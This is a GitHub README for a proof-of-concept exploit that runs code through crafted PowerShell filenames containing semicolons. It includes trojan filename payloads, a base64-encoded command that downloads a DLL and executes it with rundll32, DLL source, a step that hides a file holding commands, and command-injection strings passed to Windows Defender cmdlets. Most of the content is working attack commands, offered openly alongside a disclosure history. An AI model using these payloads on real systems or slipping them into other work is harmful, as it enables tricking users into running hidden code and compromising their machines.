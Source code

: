 # PSTrojanFile
Windows PowerShell Filename and Defender Anti-Malware API - Code Execution POC <br>  
Discovery: John Page (aka hyp3rlinx) 2019 and revisted 2023

Updated: Dec 7, 2023 added CL and Windows Defender API vector, see below:

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  


https://www.youtube.com/watch?v=-ZJnA70Cf4I

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/029d41d2-af58-434d-8d0f-0bf8f01d1c55

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/31317076-6ceb-4b28-8062-9c8863b0831d)

Update: Microsoft Defender Anti-Malware PowerShell API - Arbitrary Code Execution.

Microsoft Defender Anti Malware and or PS API's can result in executing arbitrary code.
E.g. scan a directory, shortcut .lnk or even non-existent item, may execute unintended code.
This vector builds upon my previous advisory and subsequent project PSTrojanFile.

Requirements:
1) On CL 'powershell' cmd is prefixed or passed in by calling PowerShell from another script
2) Executable file of same name as the parameter that lives nearby

Examples: <br>
powershell Start-MpScan -Scanpath "C:\Users\gg\Downloads\;saps Helper;.1.zip"
(Helper.exe lives on Desktop)

Create directory  ";saps Test", Test.exe, Test.cmd etc is on same CL path <br>
powershell Add-MpPreference -ControlledFolderAccessAllowedApplications ";saps Test"

Create directory with semicolon, drop PE file named doom.exe in same path.  <br>
powershell Set-ProcessMitigation -PolicyFilePath  "test;saps doom"

Last but not least:
When grabbing a file hash in PowerShell logs you out  :)
c:\> powershell  get-filehash  -algorithm MD5 "Malware;saps logoff.exe"

https://www.youtube.com/watch?v=0Go6yJiRWP8

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/b033b9f8-1ea0-4ea3-9fa3-56ea63db5b08



